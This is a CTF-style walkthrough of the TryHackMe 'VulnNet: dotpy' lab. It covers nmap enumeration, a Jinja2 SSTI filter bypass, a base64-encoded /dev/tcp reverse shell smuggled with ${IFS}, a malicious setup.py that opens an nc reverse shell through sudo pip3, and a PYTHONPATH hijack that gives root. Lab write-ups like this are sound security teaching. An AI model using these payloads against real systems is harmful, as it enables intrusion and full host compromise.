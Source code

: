 ```yaml
---
title: "TryHackMe - VulnNet: dotpy"
author: Nasrallah
description: ""
date: 2023-03-01 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, python, ssti, hijacking]
img_path: /assets/img/tryhackme/dotpy
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [VulnNet: dotpy](https://tryhackme.com/room/) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.52.235
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.52.235:8080/login
```

There is only one ports open which is 8080 and it's running Wekzeug http web server that uses python 3.6.9

## Web

Let's navigate to the web page.

![](1.png)

We see a login page, i tried some default credentials but no luck with that.

Next i registered an account and logged in.

![](2.png)

Most links on this dashboard don't work.

Next is to see what's going to happen if we request a non existing page.

![](3.png)

We got an 404 page and the name of the page we requested gets returned.

Since the server is using python, one of the first things we should test for is Server Side Template injection(SSTI).

![](4.png)

Using the payload `{{7*7}}`, we managed to confirm that the website is vulnerable to SSTI

# **Foothold**

Now let's try command injection. Thanks to [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution), we can find multiple payloads for command execution.

![](5.png)

Tried multiple payloads but always our request seems to get blocked, this means that there is filter that we need to bypass.

On the same section on `PayloadAllThings` we can find a payload that bypasses multiple filters

```python
\{\{request\|attr('application')\|attr('\x5f\x5fglobals\x5f\x5f')\|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')\|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')\|attr('read')() \}\}
```

Using burp suite, let's see if the above payload allows us to execute commands.

![](6.png)

Great! We command execution, now let's get a reverse shell.

The payload we'll use for a reverse shell is the following.

```bash
sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

But to get it passed the filter, we'll base64 encode it.

```base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxCg==
```

To get this executed on the target system, we need to decode it and pipe it to bash just like the following

```bash
echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxCg==|base64${IFS}-d|bash
```

>The ${IFS} is used to replace space.

Now we setup a listener and send our payload.

![](7.png)

# **Privilege Escalation**

## system-adm

Let's check out current privileges as use `web`

```terminal
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

We can install any python package as user `system-adm`.

To exploit that, let's create a directory that's gonna have a malicious setup.py file.

On the setup.py, we'll import os and use it execute a reverse shell.

```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.14.124 1337 >/tmp/f")
```

Next we run the following command that's gonna run the setup.py file.

```bash
sudo -u system-adm /usr/bin/pip3 install . --upgrade --force-reinstall
```

![](8.png)

## root

Let'a again check our privileges as the `system-adm`.

```terminal
system-adm@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

We can run `backup.py` as root and we also see `SETENV` option that allows to set environment variable for `backup.py`.

Checking `backup.py` we see that it imports `zipfile`. We can exploit that by creating a `zipfile.py` of our own that executes bash and give us a root shell.

```python
import os; os.system("/bin/bash")
```

We put the file in `/tmp` directory and and run the sudo command with setting the PYTHONPATH environment variable to `/tmp`.

```bash
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

![](9.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
